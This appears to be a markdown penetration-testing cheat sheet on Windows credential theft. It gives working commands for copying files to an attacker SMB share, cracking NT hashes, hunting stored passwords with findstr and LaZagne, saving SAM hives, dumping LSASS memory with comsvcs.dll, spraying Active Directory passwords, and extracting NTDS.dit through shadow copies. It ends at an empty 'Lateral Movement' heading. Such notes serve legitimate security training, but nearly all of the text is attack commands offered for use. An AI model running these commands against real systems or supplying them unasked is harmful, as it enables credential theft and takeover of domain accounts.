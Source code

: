 ### Content
- [Transfer Files Technique](#transfer-files-technique)
- [Hash Crack Technique](#hash-crack-technique)
- [Credential Hunting](#credential-hunting)
- [Local Attacks](#local-attacks)
	- [SAM Attacks](#sam-attacks)
	- [LSASS Attacks](#lsass-attacks)
	- [Active Directory & NTDS.dit Attacks](#active-directory-&-ntds.dit-attacks)
- 
---
##### Transfer Files Technique
Transfer files from the target to the attacker machine using [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).
1. Create a Share with smbserver.py on the attacker host
	``` bash
	sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <shareName> /home/bob/Documents/
	```
2. Move files on the target host to the created share
	``` PowerShell
	C:\> move <FileName> \\<IP>\<shareName>
	```
---
##### Hash Crack Technique
Crack hashes with hashcat. [supported hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)
1. Add NT hashes into text file with each hash in a single line without any additions.
2. Run hashcat against the NT hashes.
	``` bash
	sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
	```
---
##### Credential Hunting
Once we have access to a target, we can hunt stored credentials stored on it.
- Key Terms to Search: Passwords, Passphrases, Keys, Username, User account, Creds, Users, Passkeys, Passphrases, configuration, dbcredential, dbpassword, pwd, Login, Credentials. using findstr:
	``` Powershell
	findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
	```
- We can transfer [Lazagne](https://github.com/AlessandroZ/LaZagne/releases/) to the target host, using the [Transfer Files Technique](#transfer-files-technique) discussed above then run it with the next command
	``` CMD
	C:\> start lazagne.exe all
	```
- Other places we should keep in mind when credential hunting:
	- Group Policy and scripts in the SYSVOL share.
	- Look at IT shares.
	- Passwords in the AD user or computer description fields.
---
# Local Attacks
## SAM Attacks
Dumping the local SAM database from a compromised host. **Local admin privileges required**
- Three registry hives required:
	- `hklm\sam` Contains the hashes associated with local account passwords.
	- `hklm\system` Contains the system bootkey, which is used to encrypt the SAM database.
	- `hklm\security` Contains cached credentials for domain accounts.
- Save the required hives:
	``` PowerShell
	C:\WINDOWS\system32> reg.exe save hklm\sam C:\Windows\Temp\sam.save  
	C:\WINDOWS\system32> reg.exe save hklm\system C:\Windows\Temp\system.save  
	C:\WINDOWS\system32> reg.exe save hklm\security C:\Windows\Temp\security.save
	```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the three hives
- Dump Hashes with Impacket's secretsdump.py
	``` bash
	python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <UserName> -p <Password> --sam`
## LSASS Attacks
Pulling hashes from memory by dumping the `lsass.exe` process memory.
- In case we have UI access, dump the process memory using the task manager. `lsass.DMP` file created in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`

<img src="https://private-user-images.githubusercontent.com/115187674/394169491-6912e7fd-d4d8-4790-81d4-f6927060a68c.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MzM4MTYxNTMsIm5iZiI6MTczMzgxNTg1MywicGF0aCI6Ii8xMTUxODc2NzQvMzk0MTY5NDkxLTY5MTJlN2ZkLWQ0ZDgtNDc5MC04MWQ0LWY2OTI3MDYwYTY4Yy5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQxMjEwJTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MTIxMFQwNzMwNTNaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT1iZTM3ZTQ5NDFjYjU4ZWM4NDRjMTdmNmZhNThkNmRiNDJjNTI2NzRhMjU2NGNlZjk5NjAxNzM1NzI5NDg4MjI0JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.My2LUJTdvLPIvItX8iuo6loG0BIVgQtRxY0R6h_QhKw">

- In case we have only command-line access, use [Rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32) & Comsvcs.dll.
	- Find the process PID with `tasklist | findstr lsass.exe`
	``` PowerShell
	rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\Windows\Temp\lsass.dmp full
	```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the process dump.
- Use [Pypykatz](https://github.com/skelsec/pypykatz/blob/main/pypykatz/pypykatz.py) to extract hashes.
	``` bash
	pypykatz lsa minidump /home/peter/Documents/lsass.dmp
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <Username> -p <Password> --lsa`
## Active Directory & NTDS.dit Attacks
Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
- Lunch Dictionary Attack against AD account to discover working credentials using crackmapexec.
	``` bash
	crackmapexec smb <IP> -u <UserName_wordlist> -p /usr/share/wordlists/fasttrack.txt
	```
- Login to the system using `evil-winrm` with the creds we captured from above
	``` bash
	evil-winrm -i <IP>  -u <UserName> -p '<Password>'
	```

- With access to a domain controller’s file system attacker should exfiltrate:
	- `C:\Windows\NTDS\NTDS.dit`
	- `HKEY_LOCAL_MACHINE\SYSTEM` registry hive, which is required to obtain the `Boot Key` for decrypting `ntds.dit`.

- Attacker needs local admin or Domain Admin privilege, check local priv using `net localgroup` and domain priv using `net user <UserName>`.
- We can't copy the ntds.dit directly as it's always being used by the domain controller, So we will create a shadow copy for the entire drive.

- Use vssadmin to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (VSS).
	``` Powershell
	*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
	```
- Copy `NTDS.dit` and `HKLM\SYSTEM` from the shadow volume.
	``` Powershell
	*Evil-WinRM* PS C:> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
	*Evil-WinRM* PS C:> cmd.exe /c reg SAVE HKLM\SYSTEM C:\temp\SYS
	```
- Create a SMB share as discussed in [Transfer Files Technique](#transfer-files-technique) then transfer `NTDS.dit` and `HKLM\SYSTEM` to the attacker host.
	``` powershell
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\NTDS.dit \\<IP>\CompData 
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\SYS \\<IP>\CompData
	```
- Use The [DSInternals](https://www.dsinternals.com/en/downloads/) PowerShell module which provides the `Get-BootKey` and `Get-ADDBAccount`.
``` Powershell
PS> $Key = Get-BootKey -SystemHiveFilePath 'Path to the /registry/SYSTEM hive'
PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Out-File Hashdump.txt
# To create a ready list for cracking
PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Format-Custom -View HashcatNT
# If clean state database error occurred, run the following command
PS> ESENTUTL /p 'NTDS.dit' /!10240 /8 /o
```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec can accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> -u <UserName> -p <Password> --ntds`

---
# Lateral Movement
